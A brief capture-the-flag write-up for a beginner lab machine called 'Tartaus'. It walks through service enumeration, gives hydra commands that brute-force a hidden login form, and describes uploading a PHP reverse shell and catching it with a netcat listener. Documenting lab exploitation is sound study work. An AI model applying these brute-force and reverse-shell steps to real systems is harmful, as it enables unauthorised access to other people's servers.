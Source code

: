 ### Tartaus Writeup

>This is a beginner box based on simple enumeration of services and basic privilege escalation techniques.

- Scan the machine
- Check ftp with anon. login
    - Nothing interesting
- Check robots.txt
- Check /admin-dir
- wget userid and credentials.txt
- use hydra to rack username and password

Finding the username
```
hydra -L userid -P credentials.txt 10.10.191.122 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect username"
```

Finding the password
```
hydra -l enox -P credentials.txt 10.10.191.122 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^:Incorrect password"
```

- A page to upload content
- Use it go upload a php-reverse-shell and listen to the specified port on your machine
    - https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
    - Use your tun0 ip addr as the IP and specify an port
    - Upload the shell
    - Listen on the port in your machine
    - nc -nlvp <port>
    - Once uploaded you get access to the shell
-  
